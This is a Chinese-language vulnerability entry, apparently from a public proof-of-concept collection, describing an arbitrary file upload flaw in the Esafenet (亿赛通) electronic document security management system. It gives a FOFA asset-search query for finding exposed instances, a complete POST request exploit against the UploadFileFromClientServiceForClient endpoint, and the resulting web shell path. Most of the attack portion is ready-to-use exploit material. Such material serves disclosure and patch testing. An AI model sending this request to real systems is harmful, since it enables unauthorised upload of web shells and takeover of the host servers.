 # 亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 任意文件上传漏洞

# 亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 任意文件上传漏洞

## 漏洞描述

亿赛通 电子文档安全管理系统 UploadFileFromClientServiceForClient 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，获取主机权限。

参考链接：

- https://github.com/di0xide-U/YSTupload/blob/main/exp.md

## 漏洞影响

亿赛通 电子文档安全管理系统

## 网络测绘

```
app="亿赛通-电子文档安全管理系统"
```

## 漏洞复现

登录页面

![image-20230828111346925](images/image-20230828111346925.png)

验证POC

```
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Content-Length: 1

Test
```

![image-20230828111455826](images/image-20230828111455826.png)

```
Shell访问地址：https://your-ip/tttT.jsp
```


